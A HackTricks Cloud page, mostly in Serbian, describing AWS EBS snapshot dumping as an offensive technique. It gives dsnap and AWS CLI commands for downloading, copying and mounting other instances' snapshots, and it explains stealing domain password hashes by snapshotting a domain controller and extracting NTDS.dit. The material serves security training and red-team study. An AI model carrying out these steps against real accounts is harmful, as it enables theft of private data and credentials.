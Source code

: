 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Proveravanje snimka lokalno
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Napomena** da `dsnap` neće omogućiti preuzimanje javnih snimaka. Da biste to zaobišli, možete napraviti kopiju snimka u svom ličnom nalogu i preuzeti to:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Za više informacija o ovoj tehnici, proverite originalno istraživanje na [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Možete to uraditi sa Pacu koristeći modul [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Proveravanje snimka u AWS-u

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montirajte ga u EC2 VM pod vašom kontrolom** (mora biti u istoj regiji kao kopija rezervne kopije):

Korak 1: Nova zapremina vaše omiljene veličine i tipa treba da se kreira odlaskom na EC2 –> Zapremine.

Da biste mogli da izvršite ovu radnju, pratite ove komande:

* Kreirajte EBS zapreminu koju ćete priključiti EC2 instanci.
* Osigurajte da su EBS zapremina i instanca u istoj zoni.

Korak 2: Opcija "priključi zapreminu" treba da se izabere desnim klikom na kreiranu zapreminu.

Korak 3: Instanca iz tekstualnog okvira instance treba da se izabere.

Da biste mogli da izvršite ovu radnju, koristite sledeću komandu:

* Priključite EBS zapreminu.

Korak 4: Prijavite se na EC2 instancu i nabrojite dostupne diskove koristeći komandu `lsblk`.

Korak 5: Proverite da li zapremina ima podataka koristeći komandu `sudo file -s /dev/xvdf`.

Ako izlaz gornje komande prikazuje "/dev/xvdf: data", to znači da je zapremina prazna.

Korak 6: Formatirajte zapreminu u ext4 datotečni sistem koristeći komandu `sudo mkfs -t ext4 /dev/xvdf`. Alternativno, možete koristiti i xfs format koristeći komandu `sudo mkfs -t xfs /dev/xvdf`. Imajte na umu da treba da koristite ili ext4 ili xfs.

Korak 7: Kreirajte direktorijum po vašem izboru da montirate novu ext4 zapreminu. Na primer, možete koristiti naziv "newvolume".

Da biste mogli da izvršite ovu radnju, koristite komandu `sudo mkdir /newvolume`.

Korak 8: Montirajte zapreminu u direktorijum "newvolume" koristeći komandu `sudo mount /dev/xvdf /newvolume/`.

Korak 9: Promenite direktorijum u "newvolume" direktorijum i proverite prostor na disku da biste potvrdili montiranje zapremine.

Da biste mogli da izvršite ovu radnju, koristite sledeće komande:

* Promenite direktorijum u `/newvolume`.
* Proverite prostor na disku koristeći komandu `df -h .`. Izlaz ove komande treba da prikazuje slobodan prostor u "newvolume" direktorijumu.

Možete to uraditi sa Pacu koristeći modul `ebs__explore_snapshots`.

## Proveravanje snimka u AWS (koristeći cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Svaki AWS korisnik koji ima dozvolu **`EC2:CreateSnapshot`** može ukrasti heš vrednosti svih korisnika domena kreiranjem **snapshot-a Kontrolera domena**, montirajući ga na instancu koju kontroliše i **izvozeći NTDS.dit i SYSTEM** registry hive datoteku za korišćenje sa Impacket-ovim secretsdump projektom.

Možete koristiti ovaj alat za automatizaciju napada: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ili možete koristiti neku od prethodnih tehnika nakon kreiranja snapshot-a.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
